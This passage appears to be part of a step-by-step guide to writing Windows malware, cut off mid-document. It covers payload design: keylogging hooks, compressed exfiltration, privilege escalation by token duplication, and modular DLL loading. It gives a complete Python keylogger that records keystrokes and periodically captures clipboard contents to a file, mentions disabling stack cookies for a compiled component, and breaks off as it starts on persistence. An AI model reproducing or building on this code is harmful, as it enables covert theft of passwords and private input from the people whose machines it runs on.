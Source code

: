   ```c
      return 0;
  }
  ```
  Compile with `/GS-` to disable stack cookies for testing.

#### 5. Create the Payload

The core functionality should be modular, with hooks for extensibility (e.g., via exported functions).

- **Key Features**:
  - **Keylogging**: Capture hardware events via low-level hooks (SetWindowsHookEx).
  - **Data Exfiltration**: Compress with LZMA before transmission.
  - **Privilege Escalation**: Token duplication for SYSTEM access.
  - **Modularity**: Use DLLs loaded via LoadLibrary for plug-and-play (e.g., screenshot via GDI+).

- **Expanded Example (Advanced Keylogger in Python with Clipboard Monitoring)**:
  ```python
  import pynput
  from pynput.keyboard import Key, Listener
  import pyperclip  # For clipboard
  import time
  import zlib  # For compression

  log_file = "keylogs.bin"
  clipboard_interval = 10

  def on_press(key):
      try:
          with open(log_file, "ab") as f:
              f.write(key.char.encode() if hasattr(key, 'char') else f"[{key.name}]".encode())
      except:
          pass

  def monitor_clipboard():
      while True:
          clip = pyperclip.paste()
          if clip:
              with open(log_file, "ab") as f:
                  compressed = zlib.compress(clip.encode())
                  f.write(b"[CLIP:" + len(compressed).to_bytes(4, 'big') + compressed + b"]")
          time.sleep(clipboard_interval)

  # Start threads
  import threading
  threading.Thread(target=monitor_clipboard, daemon=True).start()
  with Listener(on_press=on_press) as listener:
      listener.join()
  ```

#### 6. Ensure Persistence

Achieve multi-vector persistence to survive reboots and scans.
